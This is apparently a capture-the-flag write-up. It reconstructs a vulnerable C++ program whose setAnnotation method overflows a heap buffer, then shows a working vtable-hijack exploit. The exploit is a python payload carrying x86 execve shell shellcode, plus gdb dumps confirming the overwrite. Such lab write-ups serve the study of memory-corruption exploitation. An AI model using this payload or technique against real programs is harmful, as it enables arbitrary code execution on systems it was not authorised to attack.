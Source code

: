 
Reconstructed C++ source from assembly :

```cpp
#include <string.h>
#include <memory.h>

class Foo {
    public:
        Foo(int value) : value(value), buffer() {}

        void setAnnotation(const char *str) {
            memcpy(buffer, str, strlen(str));
        }

        virtual int operator+(const Foo& rhs) {
            return value + rhs.value;
        }

        virtual int operator-(const Foo& rhs) {
            return value - rhs.value;
        }

    private:
        char buffer[100];
        int value;
};

int main(int argc, char **argv) {
    if (argc != 2) {
        return 1;
    }

    Foo *instance1 = new Foo(5);
    Foo *instance2 = new Foo(6);

    return *instance1 + *instance2;
}
```

Memory layout of the two class :

```
0x804a008:	0x08048848	0x00000000	0x00000000	0x00000000
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a028:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a058:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a068:	0x00000000	0x00000000	0x00000005	0x00000071

0x804a078:	0x08048848	0x00000000	0x00000000	0x00000000
0x804a088:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a098:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0c8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0d8:	0x00000000	0x00000000	0x00000006	0x00020f21
```

Since the class contains **virtual functions**, the compiler has added a **virtual pointer** that points to a **virtual table**, that contains the address of the two method that are virtual : the *plus* and *minus* sign that are overloaded.
There is two virtual function, so they will be two entry in the virtual table, but the program is only calling the `operator+` overload, and this is the first entry in the virtual table.

The `setAnnotation` method is unsafe and can overflow if the size of the string exceed the buffer allocated in the class. By overflowing the `buffer`, we can actually overwrite the **virtual pointer** of the second instance. We can make it point to a *fake* **vtable** that has an entry that points to a *shellcode*.

Let's try with the payload generated by the following command :

```bash
$(python -c 'print("\x10\xA0\x04\x08" + "\x31\xC0\x50\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x89\xC1\x89\xC2\xB0\x0B\xCD\x80" + "#"*81 + "\x0C\xA0\x04\x08")')
```

```
(gdb) x/56wx 0x804a008
0x804a008:	0x08048848	0x0804a010	0x6850c031	0x68732f2f
0x804a018:	0x69622f68	0x89e3896e	0xb0c289c1	0x2380cd0b
0x804a028:	0x23232323	0x23232323	0x23232323	0x23232323
0x804a038:	0x23232323	0x23232323	0x23232323	0x23232323
0x804a048:	0x23232323	0x23232323	0x23232323	0x23232323
0x804a058:	0x23232323	0x23232323	0x23232323	0x23232323
0x804a068:	0x23232323	0x23232323	0x23232323	0x23232323

0x804a078:	0x0804a00c	0x00000000	0x00000000	0x00000000
0x804a088:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a098:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0c8:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0d8:	0x00000000	0x00000000	0x00000006	0x00020f21
```

The vpointer of `instance2` now points to `0x0804a00c`. The first entry of this fake vtable is a pointer that points to the shellcode. Whenever `operator+` will be called with `instance1` as a left-hand side, the *shellcode* will be executed.